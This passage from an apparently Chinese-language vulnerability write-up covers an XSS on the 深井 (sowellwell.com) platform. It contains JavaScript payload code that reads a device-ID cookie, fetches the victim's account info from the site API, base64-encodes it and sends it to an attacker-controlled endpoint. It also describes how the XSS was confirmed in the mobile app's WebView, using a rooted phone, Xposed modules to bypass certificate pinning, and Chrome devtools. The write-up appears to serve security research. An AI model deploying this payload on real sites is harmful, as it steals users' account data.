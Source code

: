         // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }

        // 发送请求获取用户信息后，向攻击者服务器外送
        const startSend = async function() {
            const deviceid = getCookieValue('jssdk_deviceid')
            res = await myFetch('https://sowellwell.com/w/v1/account/info', deviceid)
            var encoded = encode(JSON.stringify(res))
            // send data
            justSend(api_burp+'?data='+encoded)
        }

3. 手机客户端利用

    观察到深井配有手机客户端，于是检查xss是否能够在其中触发。通过Root后的手机上安装EdXposed，并且安装TrustMeAlready模块导入burp证书，安装WebViewPP模块来启动Webview debug模式后，最后用chrome devtools调试手机端帖子的页面，发现深井应用浏览帖子基于Webview，并且XSS脚本能够执行。

    图示 xss嵌入webview
    ![webview-xss](/assets/uu_images/webview1.png)
    图示 xss脚本已下载